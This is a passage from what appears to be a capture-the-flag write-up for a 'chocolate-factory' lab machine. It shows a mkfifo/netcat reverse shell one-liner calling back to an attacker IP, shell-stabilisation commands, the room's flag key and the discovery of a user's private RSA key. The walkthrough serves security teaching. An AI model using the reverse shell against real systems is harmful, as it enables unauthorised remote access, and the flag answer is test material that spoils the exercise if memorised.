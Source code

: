 Since we already know we got `RCE`, we can simply send ourselves a reverse shell using the following command:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP 9001 >/tmp/f
```


You can use any other reverse shell, once we send the command, we notice this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408131435.png)

We can begin privilege escalation.


# PRIVILEGE ESCALATION
---


Let's stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408131704.png)

We can notice this at `/var/www/html`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408132425.png)

There's something called `key_rev_key`, if we check the strings of it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408132450.png)

We found a key, we can submit it as the first answer of the room:

```
-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY=
```


Now, let's proceed with our privilege escalation, we can notice an user at `/home` named `charlie`, inside of Charlie's home, we can see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250408132656.png)

We got a `teleport` and `teleport.pub` file, this seems like a private `RSA` key:

```
www-data@chocolate-factory:/home/charlie$ file teleport
teleport: PEM RSA private key
```

